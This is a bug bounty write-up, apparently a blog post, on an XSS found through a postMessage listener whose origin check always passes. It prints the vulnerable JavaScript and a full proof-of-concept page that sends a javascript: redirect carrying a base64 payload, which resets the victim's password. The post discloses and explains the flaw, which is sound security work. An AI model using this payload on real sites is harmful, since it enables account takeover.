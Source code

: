 ```yaml
---
layout: post
title: "Account takeover via postMessage"
tags: [postMessage,xss,javascript]
---
```


Hello everyone, I will share a simple and interesting xss completed through postMessage.<br/>
When I was looking for a site bug in a private program, I accidentally found a period javascript code, the code is as follows
```
t.prototype.redirectTo = function(t) {
    var e = String(t || "");
    document.location.href = e;
},
t.prototype.handleMessages = function(t) {
    var e = this.chatInstancesDetail.filter(function(e) {
        return e.domain.toLowerCase() === t.origin.toLowerCase()
    })[0];
    if (null !== e) {
        var i = document.getElementById(this.inlineChatFrameId)
          , n = i && i.parentElement;
        switch (t.data.command) {
        case "inline-chat-window-minimise":
            return n && (n.classList.remove("gnatta-inline-webchat"),
            n.classList.add("gnatta-inline-webchat-collapse"),
            this.toggleInlineChatScrollLock(n, !1)),
            void this.cookieService.create("InlineChatIsMinimized", "true", "", 0);
        case "inline-chat-window-maximise":
            return n && (n.classList.remove("gnatta-inline-webchat-collapse"),
            n.classList.add("gnatta-inline-webchat"),
            this.toggleInlineChatScrollLock(n, !0)),
            void this.cookieService["delete"]("InlineChatIsMinimized", "");
        case "inline-chat-window-close":
            return this.killInlineChat(),
            n && this.toggleInlineChatScrollLock(n, !1),
            void this.cookieService["delete"]("InlineChatIsMinimized", "");
        case "window-redirect":
            return this.redirectTo(t.data.completionRedirectUrl),
            void this.inlineChatSessionTrackingService.removeActiveChat()
        }
    }
}
```
After reading this code briefly, I found that he was listening to postMessage. 
Whenever I encounter the postMessage code, I always check to see if he checks the origin. 
This code clearly tells us that yes, he is checking the origin. All this does not seem to be a problem, but you may find that there is a problem with JavaScript. 
Let's take a look at the origin check code.
```
var e = this.chatInstancesDetail.filter(function(e) {
    return e.domain.toLowerCase() === t.origin.toLowerCase()
})[0];
if (null !== e) {//...}
```
Through observation I found that `this.chatInstancesDetail` is an array, and the `Array.prototype.filter` method always returns an array.
If you run the following code in the console
```
[1,2].filter((item)=>item===1)[0]
```
Will output `1`.
If the conditions are not met, the following code is listed
```
[1,2].filter((item)=>item===3)[0]
```
Will output `undefined`, followed by a judgment statement `if (null !== e) {//...}`.
In the javascript world, `==` and `===` are not the same.
Such as `null==undefined` and `null===undefined`, their results are different, which also leads to if judgment always being `true`.
So this detection code is meaningless, any domain name can communicate with it.
After this, I simply constructed a poc, the code is as follows
```
<!DOCTYPE html>
<html>
<head>
    <title>xss via postMessage</title>
</head>
<body>
    <a href="javascript:attack()">click me start attack</a>
    <script type="text/javascript">
        var ctx,interval,payload;
        payload=btoa(`
            window.opener.postMessage('attackSuccess','*');
            if(!window.cx){
                window.cx=1;
                email=$('#currentCustomerEmail').val();
                password='Hackerone123';
                $('input[name=newPassword]').val(password);
                $('input[name=checkNewPassword]').val(password);
                $('input[name=checkNewPassword]').removeAttr("disabled");
                alert('Hello '+email+' your password will be changed to: '+password);
                $('#updatePasswordForm').submit();
            }
        `);
        function attack(){
            ctx=window.open("https://example.com/xxx");
            sendPayload();
        }
        function sendPayload(){
            interval=setInterval(function(){
                ctx.postMessage({'command':'window-redirect','completionRedirectUrl':`javascript:eval(atob('${payload}'))`},'*');
            },500);
            window.addEventListener("message",function(e){
                if(e.data=="attackSuccess"){
                    clearInterval(interval);
                }
            });
        }
    </script>
</body>
</html>
```
After running the poc, you can successfully modify the victim's password.<br/>
Finally, thank you for reading
### Timeline
1. Submit Report (Oct 25th)
2. Hackerone staff changed the status to Triaged (Oct 26th)
3. The program responds for the first time (Nov 1st)
4. Rewarded $1,500 (Nov 1st)